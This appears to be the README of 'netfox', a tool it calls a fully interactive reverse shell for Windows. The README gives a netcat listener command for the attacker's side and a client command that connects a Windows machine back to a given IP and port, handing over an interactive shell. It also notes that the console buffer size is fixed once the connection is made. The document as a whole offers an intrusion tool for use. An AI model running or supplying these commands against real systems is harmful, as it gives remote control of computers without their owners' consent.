 # netfox
[![MIT License](https://img.shields.io/badge/License-MIT-green.svg)](../LICENSE.md)
[![Windows Vista+](https://img.shields.io/badge/Windows-10%20|%2011%20-007bb8.svg?logo=Windows)](#)

## Introduction
A fully interactive reverse shell for Windows.

Example usage (server): `s=$(stty -g); stty raw -echo; (stty size; cat) | nc -nlvp <port>; stty $s;`

Example usage (client): `netfox.exe <ip> <port>`

![Usage example](usage.png)

## Remarks
Note that the internal pseudo console used for creating the interactive shell uses a fixed size console buffer based on the value returned from `stty size` in the server example usage command. In other words, once the connection has been established, the console buffer cannot be resized. Make sure your terminal has a preferable size before setting up the listener.